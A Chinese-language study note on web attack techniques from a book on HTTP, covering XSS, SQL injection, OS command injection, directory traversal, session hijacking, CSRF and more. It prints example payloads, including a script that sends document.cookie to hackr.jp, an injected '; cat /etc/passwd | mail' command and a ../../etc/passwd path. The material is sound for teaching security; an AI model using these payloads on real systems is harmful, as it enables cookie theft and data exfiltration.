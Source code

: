 ```yaml
---
title: 11.Web 的攻击技术
date: 2020-11-29 01:05:47
permalink: /pages/a5ee56/
categories:
  -  计算机基础
  - 《图解HTTP》笔记
tags:
  - 
---
```


## 思维导图

> 思维导图来自： [霸天的前端笔记](https://www.zhihu.com/column/c_57862727)

![preview](./assets/img/v2-c15130d9bcc0d91811e94d97286362f8_r.jpg)

![preview](./assets/img/v2-f7acf7cc1fa50e5add19a5caa6d0cf7d_r.jpg)

![preview](./assets/img/v2-e1002463a98b27c74bde5dda9c855575_r-20201129010743975.jpg)

## 针对 Web 的攻击模式

![image-20201129012032325](./assets/img/image-20201129012032325.png)

**被动攻击的模式**：

![image-20201129012225331](./assets/img/image-20201129012225331.png)

**利用用户的身份攻击企业内部网络**

可以攻击企业内网

![image-20201129012336194](./assets/img/image-20201129012336194.png)

## 因输出值转义不完全引发的安全漏洞

### 什么是输出值不转义？

Web 应用的安全对策：

- 客户端验证：客户端(JavaScript)验证主要是尽早辨识输入错误，UI 体验的功能
- Web端验证
  - 输入值验证：业务逻辑检查 & 字符编码检查等
  - **输出值转义：转义不完全时，会因触发攻击者传入的攻击代码**

### 1. 跨站脚本攻击（Cross-Site Scripting，XSS）

**什么是XSS**：通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。

**XSS的后果**：

- 虚假输入表单骗取个人信息
- 窃取用户Cookie值
- 显示伪造的文章或文章

**XSS案例**：

1.表单骗取个人信息

```html
<div class="logo"> 
  <img src="/img/logo.gif" alt="E! 拍卖会" />
</div> 

<form action="http://example.jp/login" method="post" id="login">     
    <div class="input_id"> ID 
        <input type="text" name="ID" value="">
        <script>var f=document.getElementById("login");</script>
    </div>
</form>
<!-- input 后面带着 script 脚本，就不知不觉获取了信息了 --!>
```

2.Cookie 窃取攻击

```html
<script src=http://hackr.jp/xss.js></script>
```

```javascript
//文件: http://hackr.jp/xss.js
var content = escape(document.cookie); 
document.write("<img src=http://hackr.jp/?"); document.write(content); 
document.write(">");
// 通过这种方式，就以请求图片的方式，把自己的Cookie信息发送出去了。
```

### 2. SQL注入攻击（SQL Injection）

**SQL 注入** 是攻击者将 SQL 语句改变成开发者意想不到的形式以达到破坏结构的攻击。

**SQL注入的案例**：

**正常的请求**：`http://example.com/search?q=小米`

对应的SQL为 `select * from bookstort where author=小米 and flag=1 ` 

**SQL注入请求**：`http://example.com/search?q=小米 --`

对于SQL为 `select * from bookstort where author=小米 -- and flag=1`

由于SQL 中 `--` 是注释，就把后面的 flag 条件给省略了。

如果这个条件是一些保密信息的限制条件的话，就容易造成损失。

### 3. OS 命令注入攻击（OS Command Injection）

**OS命令攻击** 是通过 Shell 来调用操作系统命令。

**OS注入攻击的案例**:

```php
// php中发送邮件的一段代码
my $adr = $q->param('mailaddress'); 
open(MAIL, "| /usr/sbin/sendmail $adr");
```

正常是邮箱地址 `hack@example.jp`

OS注入是 `; cat /etc/passwd | mail hack@example.jp` ，拼接后就是

`| /usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp`

带入了系统的账户信息一起发送了

### 4. 邮件首部注入攻击（Mail Header Injection）

邮件首部注入是指通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。

### 5. 目录遍历攻击（Directory Traversal）

目录遍历攻击是指对本无意公开的文件目录， 通过非法截断其目录路径后，达成访问目的的一种攻击。案例如下:

```
http://example.com/read.php?log=0401.log # 正常
http://example.com/read.php?log=../../etc/passwd # 获取账户信息
```



## 因设置或设计上的缺陷引发的安全漏洞

- **强制浏览（Forced Browsing）**：强制浏览漏洞是指从安置在 Web 服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件。

  比如对用户的私密照片没有做权限管理，使得任何人只要知道URL就可以访问。

- **不正确的错误消息处理（Error Handling Vulnerability）**: 一些Web应用的错误信息包含了对攻击者有利的信息。

- **开放重定向功能（Open Redirect）**：对指定的任意 URL 作重定向跳转，有可能导致用户被诱导到恶意Web网站

## 因会话管理疏忽引发的安全漏洞

- **会话劫持（Session Hijack）**：会话劫持是指攻击者通过某种手段拿到了用户的会 话 ID，并非法使用此会话 ID 伪装成用户，达到攻击的目的。

  获取 SessionID 的方式有：

  - 非正规的生成方法推测会话 ID
  - 窃听或 XSS 攻击
  - 会话固定攻击（Session Fixation）强行获取会话 ID：强迫用户使用自己固定的SID进行登录

- **跨站点请求伪造（Cross-Site Request Forgeries，CSRF）**：强制对 **已完成认证的用户** 进行非预期的个人信息或设定信息等某些状态更新。
  比如嵌入某些修改信息的URL，用户在不知觉的情况下就实现了修改的操作，网站也无法区分。

## 其他安全漏洞

### 密码破解

一般破解的手段：

- 试错法：穷举、字典攻击（其他Web网站的密码）
- 已加密密码进行破解：网站一般不会以明文存储密码，而是通过 散列函数 或 加盐的操作进行加密。此类的破解方式有：穷举、彩虹表、获取密钥

### 点击劫持

通过透明遮罩覆盖原先的图像

### DoS 攻击（Denial of Service attack）

**DoS 攻击**是一种让运行中的服务呈停止状态的攻击。服务器无法区分正常请求和攻击请求，使得服务瘫痪。

### 后门程序（Backdoor）

后门程序是指开发设置的隐藏入口，用于调试和测试使用。